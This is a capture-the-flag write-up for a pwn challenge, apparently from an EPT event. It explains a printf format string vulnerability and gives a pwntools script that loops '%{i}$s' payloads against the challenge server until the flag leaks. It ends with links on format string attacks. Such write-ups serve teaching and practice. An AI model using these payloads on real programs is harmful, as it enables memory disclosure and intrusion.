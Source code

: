 # I think we have a roof leak

> Category: Pwn
> 
> The printf function in expects one or more parameters. In the man page its defined as: int printf(const char *format, ...);
> 
> If the first (and only) argument is a pointer string without any formating options it just prints the string. But what happens if we only have one argument, that is user controlled?
> 
> The man page can be a good place to start.
> 
> nc io.ept.gg 30021

## Solution
```python
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF('./pwn1')
host = 'io.ept.gg'
port = 30021

for i in range(10):
    r = remote(host, port)
    r.recvline()
    payload = f'%{i}$s'.encode()
    r.sendline(payload)
    flag = r.recvline().strip()
    if b'EPT' in flag:
        print(f'Payload "{payload.decode()}" - {flag.decode()}')
        r.close()
        break
    r.close()
```

This pwn uses the `Format string attack` and that `%[index]$[write_type]`. Using a for-loop to find the `index` and `%s` to print a string.

More or less, the python-scripts uses `pwntools` to read the elf-file and connect to the host. Then the scripts iterates through payloads to find the index containing the flag. When the flag - `EPT` - has been found, print the payload and the flag, then break the loop and exit.

## Links
Here are some resources regarding format string attacks:

https://owasp.org/www-community/attacks/Format_string_attack

https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b

https://tripoloski1337.github.io/ctf/2020/06/11/format-string-bug.html

